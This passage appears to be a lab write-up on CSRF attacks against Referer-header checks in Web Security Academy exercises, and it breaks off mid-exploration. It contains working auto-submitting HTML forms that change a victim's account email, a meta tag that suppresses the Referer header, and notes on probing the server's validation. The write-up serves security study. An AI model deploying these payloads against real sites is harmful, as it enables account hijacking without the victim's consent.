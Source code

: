 ```html
<html>
	<head>
	    <meta name="referrer" content="no-referrer">
	</head>
	<form class="login-form" name="change-email-form" action="https://0aff007a032c2dd382ef3395001d0062.web-security-academy.net/my-account/change-email" method="POST">
	    <input type="hidden" name="email" value="pwned@pwned.com">
	</form>
	
	<script>
		document.forms[0].submit();
	</script>
</html>
```

You can add this meta tag that allow you to remove the header:

```html
<meta name="referrer" content="no-referrer">
```

The header is referer because a grammatical error was made when it was created.

# CSRF with broken Referer validation

The same, we don't see any csrf token, we can try to create the exploit server:

```html
<form class="login-form" name="change-email-form" action="https://0a5700db03d2d47c802a3f0e009c0091.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
document.forms[0].submit();
</script>
```

We obtain the same response of the before lab:

> `"Invalid referer header"`

In this case the server want that the referer point to the victim server if you try to remove the header you see that doesn't work, if you try to replace the header referer to the URL of the victim `Referer: 0a5700db03d2d47c802a3f0e009c0091.web-security-academy.net` you see that the email changed.

Now, we can know how the server is validating this refereed header.
What happens if we remove one character?
What happens if we add more characters at the first?

We see that is searching that the header value string **contain** the victim url. 

If we change the file in the url server? In place of /exploit we can use /0a5700db03d2d47c802a3f0e009c0091.web-security-academy.net

It's a good idea but this doesn't work, if you try and obtain the requests in burpsuite you can see that the refereer header doesn't change.
